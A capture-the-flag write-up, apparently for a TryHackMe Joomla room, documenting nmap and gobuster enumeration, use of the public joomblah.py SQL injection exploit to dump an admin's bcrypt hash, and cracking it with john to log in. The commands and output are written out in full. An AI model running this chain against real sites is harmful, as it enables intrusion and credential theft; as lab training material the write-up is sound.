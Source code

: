 # Enumeration
Using `nmap` to scan the target
```python
nmap -T4 -sV -vv -O -A -Pn  {IP} -oN nmap.txt
```
I outputed the scan result to `nmap.txt` file for later reviewing.
This is a brief of the result:
```note
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCbp89KqmXj7Xx84uhisjiT7pGPYepXVTr4MnPu1P4fnlWzevm6BjeQgDBnoRVhddsjHhI1k+xdnahjcv6kykfT3mSeljfy+jRc+2ejMB95oK2AGycavgOfF4FLPYtd5J97WqRmu2ZC2sQUvbGMUsrNaKLAVdWRIqO5OO07WIGtr3c2ZsM417TTcTsSh1Cjhx3F+gbgi0BbBAN3sQqySa91AFruPA+m0R9JnDX5rzXmhWwzAM1Y8R72c4XKXRXdQT9szyyEiEwaXyT0p6XiaaDyxT2WMXTZEBSUKOHUQiUhX7JjBaeVvuX4ITG+W8zpZ6uXUrUySytuzMXlPyfMBy8B
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKb+wNoVp40Na4/Ycep7p++QQiOmDvP550H86ivDdM/7XF9mqOfdhWK0rrvkwq9EDZqibDZr3vL8MtwuMVV5Src=
|   256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP4TcvlwCGpiawPyNCkuXTK5CCpat+Bv8LycyNdiTJHX
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
|_http-title: Home
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
3306/tcp open  mysql   syn-ack ttl 63 MariaDB 10.3.23 or earlier (unauthorized)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
```
Open Ports:
- 22 (ssh)
- 80 (http)
- 3306 (mysql)
  Also, this is a quick look at the target via `port 80`

![Image](https://github.com/user-attachments/assets/c728a98c-4dfb-4eea-96a9-c389c58b32a7)

After reading the article, the answer for Task 1 is `spiderman` without the `-`
Then I noticed the login section on the right of the post, I tried using some SQLi queries to enter but gaining nothing.
Then I used `gobuster` to find all the hidden path of this site
```python
gobuster dir -u "http://{IP}" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.js,.txt -t 1000 2>/dev/null
```
And obtaining some interesting information
```note
/images               (Status: 301) [Size: 235] [--> http://10.10.73.116/images/]
/index.php            (Status: 200) [Size: 9278]
/includes             (Status: 301) [Size: 237] [--> http://10.10.73.116/includes/]
/components           (Status: 301) [Size: 239] [--> http://10.10.73.116/components/]
/cache                (Status: 301) [Size: 234] [--> http://10.10.73.116/cache/]
/language             (Status: 301) [Size: 237] [--> http://10.10.73.116/language/]
/libraries            (Status: 301) [Size: 238] [--> http://10.10.73.116/libraries/]
/robots.txt           (Status: 200) [Size: 836]
/tmp                  (Status: 301) [Size: 232] [--> http://10.10.73.116/tmp/]
/layouts              (Status: 301) [Size: 236] [--> http://10.10.73.116/layouts/]
/administrator        (Status: 301) [Size: 242] [--> http://10.10.73.116/administrator/]
/htaccess.txt         (Status: 200) [Size: 3005]
/README.txt           (Status: 200) [Size: 4494]

```
I reckoned that I should check all the path that came with status `200` manually.
## Accessing  `/README.txt`
![Image](https://github.com/user-attachments/assets/eabd68bb-ac06-40d5-93ee-b4356df0de9e)
## Accessing   `/robots.txt`
![Image](https://github.com/user-attachments/assets/816cd781-e6c1-4f77-aaf7-83a0c4e73fd1)
## Accessing  `/htaccess.txt`
![Image](https://github.com/user-attachments/assets/e2820de9-5869-4c82-9f2e-88302f68d2b5)
Nothing special but I knew that the version of Joomla is 3.7.x for the target, then I assumed that the version is 3.7.0-9 about that range
Then I tried to find some credentials to login
and saw this hint:
![Image](https://github.com/user-attachments/assets/f2acf5a4-ac19-456d-9716-dd7c8a29b0d0)
So I Knew that ther http-generator : `joomla 3.7.x` then I just looked for some python vulnerabilities related to this generator and ended up with this
[joomblah.py](https://raw.githubusercontent.com/teranpeterson/Joomblah/refs/heads/master/joomblah.py) 
## Reference
[Joomblah](https://github.com/teranpeterson/Joomblah/tree/master)
So I had my SQLi python and carefully learned how to use it with `python3`
```python
python3 joomblah.py  "http://{ip}/index.php/component/users/\?view\=login\&Itemid\=101"
```
Obtaining the result 
```
Fetching CSRF token
Testing SQLi
Found table: fb9j5_users
Extracting users from fb9j5_users
Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
Extracting sessions from fb9j5_session
```
I had username :`jonah`, and hashed password :`$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm`
I acctually did not know what type of this hash is (I saved the hashed password into `password.txt` file) and just ended up coping and pasting to google for searching and found this post on [reddit](https://www.reddit.com/r/HowToHack/comments/m9w0at/why_isnt_john_cracking_this_bcrypt_hash/)
But I wanted to find it by myself then I kept searching, I found this tool called [Hash Type Identifier](https://hashes.com/en/tools/hash_identifier)
![Image](https://github.com/user-attachments/assets/5fd1c549-0149-43a1-9f06-d762a5d5ed48)
Then I could ensure that the hash type is `bcrypt`, moving next I used `john` do decrypt the hash
```python
john password.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```
and I found the password, by the way, I got the username too, therefore, I attempted to login.
![Image](https://github.com/user-attachments/assets/85c69d85-5e4c-4ca6-911b-010fed173ee8)
# Boom, Login Successfully~~!!! 


